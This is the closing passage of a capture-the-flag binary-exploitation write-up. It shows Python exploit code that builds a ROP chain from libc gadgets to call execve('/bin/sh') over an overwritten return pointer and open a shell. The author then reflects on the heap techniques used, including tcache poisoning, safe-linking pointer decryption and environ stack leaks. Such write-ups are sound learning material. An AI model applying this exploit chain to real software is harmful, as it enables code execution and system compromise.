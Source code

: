 ### rop chain
```python
    pop_rsi = libc_base + 0x0000000000037c2a#: pop rsi; ret;
    pop_rdx = libc_base + 0x000000000010b127#: pop rdx; ret;
    syscall = libc_base + 0x00000000000883d6#: syscall; ret;
    pop_rax = libc_base + 0x00000000000446e0#: pop rax; ret;
    bin_sh  = libc_base + 0x1B4689
    pop_rdi = libc_base + 0x000000000002daa2#: pop rdi; ret#

    #build a rop chain to call the execve syscall with the correct values
    payload = p64(pop_rsi)
    payload += p64(0)
    payload += p64(pop_rdi)
    payload += p64(bin_sh) #address of /bin/sh in libc
    payload += p64(pop_rdx)
    payload += p64(0)
    payload += p64(pop_rax) #its lucky there was a pop rax gadget
    payload += p64(59)
    payload += p64(syscall)

    log.info("writting rop chain over create's return ptr")
    #write the rop chain to the leaked stack ptr
    create_rune(r, p64(39)[:-1], 0x50, payload)

    log.info("enjoy the shell ;)")
    r.interactive()
```


# Final thoughts
All in all this was a really fun challenge and I learned a ton! It was very rewarding to finally figure out the vulnerability, it took me a looooong time to find it. probably about 7 or so hours.

Then, with that getting the write what where vulnerability and figuring out I can't just overwrite the `__malloc_ptr` was very shocking! It forced me to read other's writeup's and learn about how a modern version of libc works.

I'm also very happy with the way I finally code code execution, it felt like I used every trick I knew! So, to wrap things off, here is a list of the techinques I used, and pieces of knowledge that helped me!

Techiniques/knowledge used:
    - strcpy copies to a null byte, while read doesn't stop at a null byte
    - freeing a chunk into an unsorted bin places a libc pointer on the heap
    - puts also prints until a null byte (allowing full leaks)
    - heap ptr's can be deciphered. read more [here](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/decrypt_safe_linking.c)
    - tcache poisoning. read more [here](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/tcache_poisoning.c)
    - ROP chaining
    - (not a techinque) carefully following how data/handles are passed around from function call to function call

What I learned:
    - environ variable in LIBC contains a pointer to the stack
    - in glibc 2.35 `__malloc_hook`, `__free_hook`, and `__realloc_hook` are useless :( 
    - exit_function_list can be overwritten for RCE on an exit call
    - sometimes one gadgets don't work!

